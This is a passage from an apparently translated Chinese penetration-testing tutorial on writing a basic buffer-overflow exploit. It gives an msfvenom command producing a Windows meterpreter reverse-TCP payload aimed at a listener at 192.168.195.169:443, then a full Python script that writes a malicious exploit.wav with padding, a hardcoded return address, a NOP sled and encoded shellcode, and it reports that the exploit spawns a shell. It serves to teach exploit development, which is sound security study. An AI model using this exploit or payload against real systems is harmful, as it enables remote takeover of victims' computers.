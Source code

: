 ![Writing a basic buffer overflow exploit](../Images/image00400.jpeg)

然后，我们生成新的 shell 代码 a`windows/meterpreter/reverse_nonx_tcp`并用它替换计算器代码。我们选择这种有效负载类型是因为它是一个非常小的计量器，这意味着因为我们知道我们的内存占用可能是有限的，所以我们有更好的机会成功利用此漏洞。

```
msfvenom -p windows/meterpreter/reverse_nonx_tcp lhost=192.168.195.169 lport=443 -f c -b '\x00\xff\x01\x09\x0a\x0d'
```

### 提示

这些示例中还列出了其他错误字符。出于习惯，我通常在生成有效负载时保留这些。请记住，错误字符越多，编码器就越需要添加执行功能等效操作的操作。这意味着编码越多，负载通常越大。

命令的输出如下，其大小仅为 204 字节：

![Writing a basic buffer overflow exploit](../Images/image00401.jpeg)

当放入攻击代码时，我们会得到以下 Python 攻击：

```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =("\xba\x16\xdf\x1b\x5d\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x2d\x31\x56\x13\x83\xc6\x04\x03\x56\x19\x3d\xee\xa1\x4f\x2a"
"\x56\xb2\x76\x53\xa6\xbd\xe8\x9d\x82\xc9\x95\xe1\xbf\xb2\x58"
"\x62\xc1\xa5\x29\xc5\xe1\x38\xc7\x61\xd5\xa0\x16\x98\x27\x15"
"\x81\xc8\x89\x5f\xbc\x11\xc8\xe4\x7e\x64\x3a\xa7\x18\xbe\x08"
"\x5d\x07\x8b\x07\xd1\xe3\x0d\xf1\x88\x60\x11\x58\xde\x39\x36"
"\x5b\x09\xc6\x6a\xc2\x40\xa4\x56\xe8\x33\xcb\x77\x21\x6f\x57"
"\xf3\x01\xbf\x1c\x43\x8a\x34\x52\x58\x3f\xc1\xfa\x68\x61\xb0"
"\xa9\x0e\xf5\x0f\x7f\xa7\x72\x03\x4d\x68\x29\x85\x08\xe4\xb1"
"\xb6\xbc\x9c\x61\x1a\x13\xcc\xc6\xcf\xd0\xa1\x41\x08\xb0\xc4"
"\xbd\xdf\x3e\x90\x12\x86\x87\xf9\x4a\xb9\x21\x63\xcc\xee\xa2"
"\x93\xf8\x78\x54\xac\xad\x44\x0d\x4a\xc6\x4b\xf6\xf5\x45\xc5"
"\xeb\x90\x79\x86\xbc\x02\xc3\x7f\x47\x34\xe5\xd0\xf3\xc6\x5a"
"\x82\xac\x85\x3c\x9d\x92\x12\x3e\x3b")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

执行时，我们得到以下结果，显示漏洞生成外壳：

![Writing a basic buffer overflow exploit](../Images/image00402.jpeg)
